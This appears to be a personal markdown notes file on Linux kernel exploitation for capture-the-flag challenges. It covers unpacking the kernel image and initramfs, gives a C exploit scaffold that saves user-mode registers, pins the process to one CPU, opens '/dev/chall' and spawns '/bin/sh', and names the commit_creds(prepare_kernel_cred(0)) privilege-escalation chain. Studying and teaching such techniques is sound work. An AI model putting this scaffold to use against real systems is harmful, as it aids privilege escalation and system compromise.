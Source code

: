 # Kernel pwn notes

Collection of kernel pwn notes I made for myself, feel free to refer!

## Setup

* `vmlinuz`

Contains the compressed kernel, can decompress with `extract-image.sh`

`extract-image.sh ./vmlinuz | save ./vmlinux`

Find symbols: [https://github.com/marin-m/vmlinux-to-elf]

* `initramfs.cpio.gz`

Filesystem, `gunzip` first then unserialize with `cpio`

Can repack with `compress.sh exploit.c`

```bash
gunzip initramfs.cpio.gz
cat initramfs.cpio | cpio -idm
```

https://bsauce.github.io/2021/09/26/kernel-exploit-%E6%9C%89%E7%94%A8%E7%9A%84%E7%BB%93%E6%9E%84%E4%BD%93/

* Script

Useful pre-exploit initialization

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <stdarg.h>
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sched.h>

int fd = 0;
 
void pprintf(char *str, ...) {
  printf("[*] ");
  va_list args;
  va_start(args, str);
  vprintf(str, args);
  printf("\n");
}
 
void pprintfc(char *str, ...) {
  printf("\33[2K\r[*] ");
  va_list args;
  va_start(args, str);
  vprintf(str, args);
}
 
 
void ppause(char *str, ...) {
  printf("[-] ");
  va_list args;
  va_start(args, str);
  vprintf(str, args);
  printf("\n");
  getchar();
}
 
void open_dev() {
  fd = open("/dev/chall", O_RDWR);
}
 
size_t user_cs, user_ss, user_sp, user_rflags;
void save_state() {
  __asm__(
      ".intel_syntax noprefix;"
      "mov user_cs, cs;"
      "mov user_ss, ss;"
      "mov user_sp, rsp;"
      "pushf;"
      "pop user_rflags;"
      ".att_syntax;"
  );
}
 
void get_shell() {
  system("/bin/sh");
}

cpu_set_t cpu_set;
int main() {
  // save registers
  save_state();
 
  CPU_ZERO(&cpu_set);
  CPU_SET(0, &cpu_set);
  sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

  open_dev();
  pprintf("opened device on fd %d, starting exploit", fd);
}
```

Common ROP chain:

```c
commit_creds(prepare_kernel_cred(0))
commit_creds(prepare_kernel_cred(&init_task))
```

